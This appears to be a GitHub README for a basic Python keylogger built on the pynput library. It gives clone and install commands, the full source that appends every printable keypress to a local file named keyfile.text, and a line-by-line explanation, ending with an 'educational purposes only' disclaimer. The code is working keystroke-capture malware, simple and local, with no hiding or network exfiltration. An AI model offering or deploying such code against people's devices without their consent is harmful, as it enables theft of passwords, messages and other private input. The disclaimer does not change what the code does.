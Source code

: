# Keylogger

This project is a simple keylogger implemented in Python using the `pynput` library. It listens for keyboard events and logs the keys pressed to a file.
## Requirements

To run this keylogger script, you need to have the following software and libraries installed on your machine:

### 1. Python
- **Python 3.x**: This script is written in Python and requires Python 3.x to run. You can download the latest version of Python from the [official website](https://www.python.org/downloads/).

To check if Python is installed on your machine and to verify the version, you can run the following command in your terminal or command prompt:


python --version

## Installation
 **Clone the repository or download the script.**
   

   git clone https://github.com/yourusername/keylogger.git
   cd keylogger
## install the pynput library.

You can install the required library using pip:
  ' pip install pynput'
### Run the keylogger script

 python keylogger.py
## Log file.

The script creates/appends to a file named keyfile.text in the same directory, where all key presses are logged.
# code Explanation

from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.text", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except:
            print("error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()

## Importing the library:
from pynput import keyboard


# Defining the key press handler:

- def keyPressed(key):
  -  print(str(key))
   - with open("keyfile.text", 'a') as logkey:
   -     try:
   -         char = key.char
    -        logkey.write(char)
     -   except:
      -      print("error getting char")

The `keyPressed `function is called every time a key is pressed. It attempts to write the character of the key to `keyfile.text`. If the key doesn't have a character representation (e.g., special keys like Ctrl or Alt), it catches the exception and prints an error message.
# Setting up the listener:

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()

This block checks if the script is being run directly (not imported as a module). It creates a `keyboard.Listener` object that listens for key presses and starts it. The `input()` function keeps the program running.

# Disclaimer
This keylogger is for educational purposes only. Unauthorized use of a keylogger can be illegal and unethical. Ensure you have explicit permission to use this tool on any device.
